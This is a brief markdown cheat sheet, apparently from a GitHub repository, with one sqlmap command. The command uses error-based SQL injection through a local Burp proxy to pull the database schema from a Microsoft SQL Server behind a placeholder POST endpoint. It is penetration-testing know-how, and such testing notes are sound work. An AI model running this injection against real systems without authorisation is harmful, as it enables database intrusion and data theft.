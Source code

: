 ## SQLmap notes

### Get database schema

* Microsoft SQL Server
* Error-base
* POST
* Burp Pro proxy
* Specific database

```bash
sqlmap -v3 -u https://example.com --method=POST --data="post-request-data" --proxy=http://127.0.0.1:8080 -p <vulnerable_parameter> --os=Windows --technique=E --dbms="Microsoft SQL Server" --schema --dump-format=CSV -D dbname
```

